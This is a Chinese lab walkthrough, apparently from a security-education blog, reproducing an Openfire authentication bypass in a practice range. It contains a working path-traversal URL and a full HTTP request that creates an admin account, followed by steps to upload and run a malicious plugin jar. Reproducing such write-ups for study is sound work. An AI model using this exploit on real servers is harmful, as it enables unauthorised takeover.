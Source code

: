 # 原创
：  Openfire 身份认证绕过漏洞复现

# Openfire 身份认证绕过漏洞复现

> 
公众号：掌控安全EDU 分享更多技术文章，欢迎关注一起探讨学习


首先进入靶场访问

https://域名:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp

出现上图所示的日志泄露即可确定漏洞存在<br/> 接下来bp抓包，在重发器里填入以下数据包内容：

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=xxxxx&amp;username=adm123&amp;name=&amp;email=&amp;password=adm123&amp;passwordConfirm=adm123&amp;isadmin=on&amp;create=%E5%88%9B%E5%BB%BA%E7%94%A8%E6%88%B7 HTTP/1.1
Host: 域名:9090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=xxxxx; csrf=xxxxx
Connection: close
```

 <img alt="" height="859" src="https://img-blog.csdnimg.cn/575026de12204902b033748a0ccb2a4c.png" width="1080"/>

发送出现如图的响应即为成功添加用户，账号密码都为adm123(注：JSESSIONID和csrf可以通过访问登录界面来获取)<br/> 登录后台后，去插件那边上传jar包

然后去服务器-服务器设置运行插件，插件密码123回车 

<img alt="" height="684" src="https://img-blog.csdnimg.cn/e492a005ea5743a8a28b1477b55e9596.png" width="1080"/>然后去找flag就好了

**没看够~？欢迎关注！**
